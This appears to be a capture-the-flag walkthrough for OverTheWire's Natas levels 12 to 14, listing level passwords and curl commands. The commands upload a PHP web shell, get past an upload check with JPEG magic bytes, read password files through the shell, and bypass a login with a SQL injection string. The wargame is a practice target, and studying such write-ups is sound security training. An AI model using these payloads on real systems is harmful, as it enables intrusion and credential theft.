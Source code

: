 
### natas12

```
natas12
EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3
http://natas12.natas.labs.overthewire.org/
```

```
# construct payload:
cat > uplo.php <<EOF
<?php system($_GET['cmd']) ?>
EOF

# upload file
$ curl -s -H "Authorization: Basic `echo -n 'natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3' | base64`" http://natas12.natas.labs.overthewire.org/ -F "MAX_FILE_SIZE=1000" -F "filename=mzet.php" -F "uploadedfile=@uplo.php;filename=uplo.php"

# execute OS command
$ curl -s -H "Authorization: Basic `echo -n 'natas12:EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3' | base64`" "http://natas12.natas.labs.overthewire.org/upload/qid24hf8mp.php?cmd=cat+/etc/natas_webpass/natas13"
```

### natas13

```
natas13
jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
```

```
# prepend jpg magic number to previous payload:
$ echo -e '\xff\xd8\xff\xe0'`cat uplo.php` > uplo2.php

# upload file
$ UPLOADED=$(curl -s -H "Authorization: Basic `echo -n 'natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY' | base64`" http://natas13.natas.labs.overthewire.org/ -F "MAX_FILE_SIZE=1000" -F "filename=mzet.php" -F "uploadedfile=@uplo2.php;filename=uplo2.php" | grep upload | awk -F 'upload/' '{print $2}' | cut -d '"' -f1)

$ curl -s -H "Authorization: Basic `echo -n 'natas13:jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY' | base64`" "http://natas13.natas.labs.overthewire.org/upload/${UPLOADED}?cmd=cat+/etc/natas_webpass/natas14"
```

### natas14

```
natas14
Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1
```

    $ curl -s -H "Authorization: Basic `echo -n 'natas14:Lg96M10TdfaPyVBkJdjymbllQ5L6qdl1' | base64`" "http://natas14.natas.labs.overthewire.org/" -d 'username=a"+or+1=1#' | grep natas15
